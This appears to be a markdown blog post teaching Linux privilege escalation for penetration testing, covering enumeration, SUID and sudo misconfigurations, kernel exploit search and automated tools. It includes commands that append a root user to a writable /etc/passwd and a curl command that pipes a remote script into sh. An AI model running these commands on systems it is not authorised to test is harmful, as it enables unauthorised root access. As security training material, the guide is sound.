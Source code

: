 ```yaml
---
title: "Linux Privilege Escalation Guide"
description: "Comprehensive guide to understanding and exploiting Linux privilege escalation vulnerabilities"
author: "Verve Team"
date: "2024-01-20"
readTime: "10 min read"
tags: ["Linux", "PrivEsc", "Security"]
featured: true
---
```


# Linux Privilege Escalation Guide

Privilege escalation is a critical skill in penetration testing. This guide covers essential techniques for escalating privileges on Linux systems.

## Understanding Privilege Escalation

Privilege escalation occurs when a user gains access to resources they normally wouldn't have access to, typically by exploiting a vulnerability or misconfiguration.

### Types of Privilege Escalation

- **Vertical** - Gaining higher privileges (user → root)
- **Horizontal** - Accessing another user's resources

## Enumeration

The first step is always enumeration. Gather as much information as possible:

```bash
# System information
uname -a
cat /etc/issue
cat /etc/*-release

# Current user info
id
whoami
groups

# Check sudo permissions
sudo -l

# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null
```

## Common Techniques

### 1. SUID Binaries

SUID binaries run with the permissions of their owner, not the user executing them.

```bash
# Find SUID files
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Check GTFOBins for exploitation methods
```

### 2. Sudo Misconfigurations

```bash
# Check what you can run with sudo
sudo -l

# Look for entries without password requirement
# Look for wildcards or dangerous binaries
```

### 3. Kernel Exploits

```bash
# Find kernel version
uname -r

# Search for exploits
searchsploit linux kernel 4.15
```

### 4. Writable /etc/passwd

```bash
# Check if writable
ls -la /etc/passwd

# If writable, add a new root user
openssl passwd -1 -salt xyz password123
echo 'newroot:HASH:0:0:root:/root:/bin/bash' >> /etc/passwd
```

## Automated Tools

- **LinPEAS** - Linux Privilege Escalation Awesome Script
- **LinEnum** - Linux enumeration script
- **Linux Smart Enumeration (LSE)** - Another great enumeration tool

```bash
# Download and run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Best Practices

1. **Always enumerate thoroughly** - Don't rush
2. **Document everything** - Keep notes of what you find
3. **Understand the exploit** - Don't just run scripts
4. **Clean up after yourself** - Remove artifacts in real assessments

## Resources

- [GTFOBins](https://gtfobins.github.io/) - SUID exploitation techniques
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) - Comprehensive resource
- [HackTricks](https://book.hacktricks.xyz/) - Pentesting wiki

---

*Practice these techniques in legal environments like TryHackMe and HackTheBox!*
